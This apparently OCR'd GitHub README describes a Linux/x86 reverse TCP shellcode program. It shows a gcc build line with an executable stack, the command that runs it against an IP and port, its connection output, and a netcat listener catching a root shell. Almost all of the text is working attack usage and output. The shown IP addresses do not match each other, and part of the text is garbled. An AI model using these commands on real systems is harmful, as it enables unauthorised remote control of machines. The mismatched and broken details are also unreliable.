# Linux-x86/Reverse-Shell

        Linux/x86 Reverse TCP Shell with dynamic IP and port binding Shellcode (tested on Ubuntu 12.04 LTS)
        Usage: gcc -z execstack -o shell_reverse_tcp shell_reverse_tcp.c
        $ ./shell_reverse_tcp_shellcode 192.168.1.137 4444
        Connecting to 192.168.1.236 (0xec01a8c0):4444 (0x115c)
        Byte 26: c0
        Byte 27: a8
        Byte 28: 01
        Byte 29: ec
 
        $ nc -nlv 4444
        Listening on 0.0.0.0 4444
        Connection received on 192.168.1.137 45219
        id
        uid=0(root) gid=0(root) groups=0(root)es)
